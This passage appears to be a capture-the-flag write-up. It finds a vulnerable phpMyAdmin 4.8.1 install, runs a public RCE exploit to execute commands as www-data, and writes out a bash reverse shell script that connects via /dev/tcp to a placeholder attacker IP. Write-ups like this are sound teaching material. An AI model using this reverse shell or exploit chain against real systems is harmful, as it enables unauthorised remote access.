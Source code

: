 Considering the the output, we are looking at `phpMyAdmin` running version 4.8.1. We can confirm this by checking `/var/www/phpmyadmin/README`:

![head README](screenshots/phpMyAdmin-README.png)

Fortunately, for us, this version of `phpMyAdmin` is vulnerable to RCE.

Using SAMGUY's [phpMyAdmin 4.8.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50457) exploit, we can do a quick PoC. As you can see below, we are able to run `whoami`. This also reveals that we are able to move laterally to the *www-data* user.

![Exploit PoC](screenshots/exploit-whoami.png)

We can execute commands as *www-data*. Let's get a reverse shell! Because executing the command straight away is rather tricky, we are executing a simple script in `/home/ada/`.

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/<A_IP>/5555 0>&1
```

Don't forget to `chmod +x /home/ada/shell.sh`.

![Exploit PoC](screenshots/reverse-shell-www-data.png)
